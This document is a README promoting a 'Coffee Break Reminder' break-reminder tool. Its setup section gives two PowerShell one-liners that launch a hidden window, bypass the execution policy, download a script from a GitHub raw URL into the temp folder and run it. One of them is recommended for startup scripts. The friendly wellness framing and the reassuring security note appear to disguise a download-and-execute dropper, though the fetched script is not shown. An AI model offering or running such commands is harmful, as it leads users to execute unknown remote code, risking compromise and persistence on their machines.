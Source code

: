 # The Coffee Break Reminder: Your Personal Wellness Companion

In today's fast-paced digital world, it's easy to lose track of time and forget to take the small breaks that are essential for your well-being. The Coffee Break Reminder is a lightweight, friendly tool designed to help you build healthier work habits, reduce the risk of repetitive strain injury (RSI), and boost your productivity by encouraging regular pauses.

## Why You'll Love It

*   **Gentle Reminders:** At random intervals, a cheerful toast notification will appear on your screen with a fun, encouraging message, reminding you to stretch, look away from the screen, or simply take a moment to relax.
*   **Boosts Focus:** Regular short breaks have been proven to improve concentration and creativity. By reminding you to step back, this tool helps you return to your work with a clearer mind.
*   **Easy to Use:** No installation is required. You can run the tool with a single command, and it will work quietly in the background.

## Getting Started

Choose the version that best fits your workflow:

### Interactive Mode

This version is perfect if you want to manually start the reminder service. It will greet you with a simple menu.

```powershell
powershell.exe -NoP -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/szolll/MW1/main/CoffeeBreak.ps1') | Out-File $env:TEMP\CoffeeBreak.ps1; . $env:TEMP\CoffeeBreak.ps1"
```

### Automatic Mode

For a completely hands-off experience, this version starts the reminder service automatically. It's ideal for adding to your startup scripts, so you never forget to enable it.

```powershell
powershell.exe -NoP -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/szolll/MW1/main/CoffeeBreak_auto.ps1') | Out-File $env:TEMP\CoffeeBreak_auto.ps1; . $env:TEMP\CoffeeBreak_auto.ps1"
```

## A Note on Security

We believe in transparency. While this tool is designed to be a helpful companion, we always recommend that you review any script before running it on your system. Your security is our top priority.

